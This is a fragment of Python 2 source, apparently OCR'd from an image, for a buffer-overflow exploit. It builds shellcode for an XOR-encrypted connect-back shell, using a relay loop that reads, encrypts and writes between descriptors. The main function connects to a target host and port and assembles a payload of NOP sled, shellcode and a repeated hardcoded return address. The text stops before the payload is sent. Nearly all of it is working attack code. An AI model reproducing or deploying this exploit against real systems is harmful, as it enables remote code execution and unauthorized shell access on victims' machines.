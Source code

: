    # main loop (read from one side, encrypt/decrypt, write to the other side)
   w = egg.Do()

   #   read
   nr = egg.read(infd, buff.addr(), BUFSIZE)

   #   end if eof
   eof = egg.If('eax','=',0)
   eof.kill(enc_pid,9)
   eof.exit(0)
   eof.end()

   #   encrypt/decrypt
   egg += egg.micro.set('ecx',nr)
   egg += egg.micro.set('ebx',(buff-1).addr())
   egg += "\x83\x34\x0b\x55"   # xor $55, (%ebx, %ecx, 1)
   egg += "\xe2\xfa"           # loop _xor

   #   write
   nw = egg.write(outfd, buff.addr(), nr)
   w.While(nw, '!=', 0)
   
   print "Egg len: %d" % len(egg)
   return egg


def main():
   if len(sys.argv) < 3:
      raise Exception, "Usage: %s <target ip> <target port>"

   # connect to target
   sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   sock.connect((sys.argv[1], int(sys.argv[2])))

   # create egg
   egg = connectEncryptedShellEgg('127.0.0.1',3335)

   # exploit

   retAddr = struct.pack('<L',0xbffffc24L)
   toSend  = "\x90"*(1024-len(egg))
   toSend += egg.getCode()
   toSend += retAddr*20
